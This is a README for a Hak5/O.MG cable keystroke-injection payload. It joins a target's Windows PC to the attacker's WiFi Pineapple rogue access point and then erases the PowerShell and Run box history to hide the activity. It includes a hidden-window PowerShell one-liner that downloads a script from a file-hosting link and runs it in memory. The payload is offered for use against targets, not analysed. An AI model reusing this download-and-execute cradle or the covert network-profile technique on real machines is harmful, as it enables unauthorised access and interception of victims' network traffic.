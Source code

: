 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG-PineApple

A script used to connect a targets PC to your wifi PineApple

## Description

This program will generate an XML file that will be used to create a network profile for your Wifi PineApple. 
Depending on your method of execution the XML file will either be manually entered into a powershell window 
or you may use and Invoke Web-Request to download a script to add the network profile. After either the history of
the powershell window and run box will be erased for a clean exit. 

## Getting Started

### Dependencies

* DropBox or another File Hosting service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in OMG Cable
* Either the entire script will be manually entered into the powershell window or
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* OMG Device is connected to target PC 
* Powershell window is opened where the XML file to create the PineApple Network Profile will be generated 
* Alternatively the XML file will be downloaded VIA an Invoke Web-Request and executed as a one liner in the Run Box

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-AcidBurn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-AcidBurn)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
